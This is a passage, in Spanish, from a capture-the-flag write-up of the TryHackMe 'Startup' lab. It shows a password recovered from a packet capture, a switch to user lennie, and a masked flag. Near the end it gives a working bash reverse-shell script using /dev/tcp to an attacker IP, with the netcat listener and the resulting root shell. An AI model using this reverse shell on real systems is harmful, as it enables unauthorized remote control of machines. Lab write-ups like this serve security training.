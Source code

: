 ![Startup](images/Startup/Startup3.png)

Durante la investigación, descubrimos un archivo de interés en el servidor. Para analizarlo más a fondo, lo subimos al servidor a través de FTP y luego lo descargamos a nuestra máquina local

```bash
ftp> put suspicious.pcapng 
local: suspicious.pcapng remote: suspicious.pcapng
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
31224 bytes sent in 0.00 secs (381.7632 MB/s)
```

Una vez descargado el archivo suspicious.pcapng, lo abrimos utilizando Wireshark para analizar el tráfico de red capturado. Este archivo contenía tráfico relevante, y tras una inspección detallada, logramos encontrar una contraseña incrustada en el tráfico.

![Startup](images/Startup/Startup4.png)

Probamos la contraseña con un usuario previamente identificado en el sistema: lennie. Utilizamos el comando su para cambiar al usuario lennie y logramos acceder exitosamente.

```bash
www-data@startup:/home$ su lennie
Password: 
lennie@startup:/home$ whoami
lennie
lennie@startup:/home$ 
```

Al continuar explorando el sistema con el acceso como lennie, encontramos la flag de usuario en el archivo user.txt ubicado en el directorio personal de lennie.

```bash
lennie@startup:~$ cat user.txt 
THM{*************************}
lennie@startup:~$ 
```

Creamos un script Bash sencillo que nos permitió establecer una reverse shell. Este script fue diseñado para redirigir la entrada y salida de la shell hacia nuestro equipo a través de una conexión TCP.

```bash
#!/bin/bash

bash -c 'bash -i >& /dev/tcp/10.9.215.134/444 0>&1'
```

En nuestra máquina atacante, usamos Netcat para escuchar conexiones entrantes:

```bash
nc -nvlp 444
listening on [any] 444 ...
connect to [10.9.215.134] from (UNKNOWN) [10.10.106.240] 45854
bash: cannot set terminal process group (3437): Inappropriate ioctl for device
bash: no job control in this shell
root@startup:~#
```
